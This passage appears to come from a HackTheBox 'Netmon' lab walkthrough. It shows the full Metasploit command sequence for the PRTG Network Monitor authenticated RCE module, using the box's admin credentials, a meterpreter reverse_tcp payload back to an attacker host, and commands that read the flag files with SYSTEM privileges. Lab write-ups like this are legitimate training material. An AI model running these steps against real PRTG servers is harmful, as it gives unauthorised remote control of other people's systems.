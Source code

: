 After some googling I found that a **metasploit module** for **PRTG Monitor Authenticated RCE** is also present. Check [**this**](https://sploitus.com/?query=prtg%20network%20monitor#exploits) link for more info and the module is **`exploit/windows/http/prtg_authenticated_rce`**.

<figure><img src="https://ethicalhacs.com/wp-content/uploads/2021/02/Sploitus-result-in-netmon.png" alt="Searching exploit over sploitus.com" height="647" width="957"><figcaption></figcaption></figure>

So let us exploit this machine to get user shell on our machine.

#### **Getting User Shell**

**`msf6 > search prtg`**

**`msf6 > use exploit/windows/http/prtg_authenticated_rce`**

**`msf6 exploit(windows/http/prtg_authenticated_rce) > set RHOSTS 10.10.10.152`**

**`msf6 exploit(windows/http/prtg_authenticated_rce) > set PAYLOAD windows/meterpreter/reverse_tcp`**

**`msf6 exploit(windows/http/prtg_authenticated_rce) > set ADMIN_USERNAME prtgadmin`**

**`msf6 exploit(windows/http/prtg_authenticated_rce) > set ADMIN_PASSWORD PrTg@dmin2019`**

**`msf6 exploit(windows/http/prtg_authenticated_rce) > set LHOST 10.10.14.7`**

**`msf6 exploit(windows/http/prtg_authenticated_rce) > set VHOST 10.10.14.7`**

**`msf6 exploit(windows/http/prtg_authenticated_rce) > exploit`**

**`meterpreter > sysinfo`**

**`meterpreter > getuid`**

<figure><img src="https://ethicalhacs.com/wp-content/uploads/2021/02/Getting-shell-in-netmon-1024x749.png" alt="Getting user shell during Netmon hackthebox walkthrough" height="749" width="1024"><figcaption></figcaption></figure>

We got a meterpreter shell and that too with the **`NT AUTHORITY\SYSTEM`** privilege. This shell is elevated because **PRTG Software** is running as **Admin User Privilege**. Let us capture user and root flag from their respective directories.

#### **Capture User & Root Flag**

**`meterpreter > search -f user.txt C:\\Users\\Public\\Desktop\\`**

**`meterpreter > cat "c:\Users\Public\Desktop\user.txt"`**

**`meterpreter > search -f root.txt C:\\Administrator\\`**

**`meterpreter > cat "c:\Users\Administrator\Desktop\root.txt"`**

<figure><img src="https://ethicalhacs.com/wp-content/uploads/2021/02/User-and-root-flag-in-netmon.png" alt="Capturing user and root flag in Netmon HTB walkthrough" height="259" width="839"><figcaption></figcaption></figure>

This was how I rooted [**Netmon HackTheBox**](https://ethicalhacs.com/netmon-hackthebox-walkthrough) machine. Learnt a lot after this challenge, hope you have also learnt some new things. Thanks for reading this walkthrough. For any query and suggestion related to walkthrough feel free to write us at **ethicalhacs@gmail.com**.
